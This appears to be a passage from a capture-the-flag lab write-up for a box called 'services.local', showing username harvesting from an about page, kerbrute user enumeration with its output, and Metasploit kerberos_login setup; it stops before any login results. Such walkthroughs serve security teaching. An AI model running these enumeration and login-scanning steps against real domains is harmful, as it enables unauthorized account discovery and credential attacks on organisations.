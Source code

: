 <br>

<h3>Web 80</h3>

<img width="606" height="604" alt="image" src="https://github.com/user-attachments/assets/2fb69927-9b6a-446d-9726-0eaaa0427b34" />

<p>

- j.doe@services.local</p>

<img width="593" height="771" alt="image" src="https://github.com/user-attachments/assets/2bfe15e9-ff8b-41b3-aa3a-f422432c0ee9" />

<br>

<h3>/etc/hosts</h3>

```bash
TargetIP    services.local
```

<br>

<h3>/about.html</h3>

<p>

- Joanne Doe</p>

<img width="1256" height="552" alt="image" src="https://github.com/user-attachments/assets/43e16a80-9fab-408e-8df2-a936215000cc" />

<p>

- Joanne Doe = <code>j.doe</code><br>
- Jack Rock = <code>j.rock</code><br>
- Will Masters = <code>w.masters</code><br>
- Johnny LaRusso = <code>j.larusso</code></p>

<br>

<h3>kerbrute</h3>

```bash
:~/Services# kerbrute userenum --dc TargetIP -d services.local users.txt
...
2025/08/06 xx:xx:xx >  [+] VALID USERNAME:	 j.larusso@services.local
2025/08/06 xx:xx:xx >  [+] VALID USERNAME:	 j.doe@services.local
2025/08/06 xx:xx:xx >  [+] VALID USERNAME:	 w.masters@services.local
2025/08/06 xx:xx:xx >  [+] VALID USERNAME:	 j.rock@services.local
```

<br>

<h3>msfconsole</h3>

```bash
msf6> search kerberos
...
```

```bash
msf6 > use 9
msf6 auxiliary(scanner/kerberos/kerberos_login) > set domain services.local
domain => services.local
msf6 auxiliary(scanner/kerberos/kerberos_login) > set rhosts TargetIP
rhosts => TargetIP
msf6 auxiliary(scanner/kerberos/kerberos_login) > set user_file users.txt
user_file => users.txt
```
